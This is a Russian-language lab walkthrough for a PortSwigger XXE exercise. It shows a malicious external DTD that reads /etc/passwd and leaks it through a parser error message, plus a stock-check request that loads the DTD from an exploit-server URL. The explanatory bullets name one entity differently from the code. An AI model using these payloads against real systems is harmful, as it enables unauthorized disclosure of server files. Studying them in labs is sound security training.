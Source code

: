 Перейдем на `Go exploit server`
и заполним поля следующим образом
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

* Определяет объект параметра XML с именем `file`, содержащий содержимое файла `/etc/passwd`.
* Определяет объект параметра XML с именем `eval`, содержащий динамическое объявление другого объекта параметра XML с именем `error`. Сущность ошибки будет оценена путем загрузки несуществующего файла, имя которого содержит значение сущности файла.
* Использует объект `eval`, который вызывает динамическое объявление объекта ошибки.
* Использует объект ошибки, так что его значение оценивается при попытке загрузить несуществующий файл, что приводит к сообщению об ошибке, содержащему имя несуществующего файла, который является содержимым файла `/etc/passwd`.

и получим урлу
```
https://exploit-0a6b0023044c44118037b666012b00e7.exploit-server.net/exploit.dtd
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/11.%20XXE%20injection/6.%20Exploiting%20blind%20XXE%20to%20retrieve%20data%20via%20error%20messages/pics%20for%20walktrough/1.png)

перейдем на случайный товар, смотрим его наличие и ищем в хттп прокси хистори данный запрос
```
POST /product/stock HTTP/2
?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```
и отправим его в `Repeater`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/11.%20XXE%20injection/6.%20Exploiting%20blind%20XXE%20to%20retrieve%20data%20via%20error%20messages/pics%20for%20walktrough/2.png)
модифицируем запрос 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a6b0023044c44118037b666012b00e7.exploit-server.net/exploit.dtd"> %xxe;]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```
и получим 400 статус респонс код, но получим уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/11.%20XXE%20injection/6.%20Exploiting%20blind%20XXE%20to%20retrieve%20data%20via%20error%20messages/pics%20for%20walktrough/3.png)
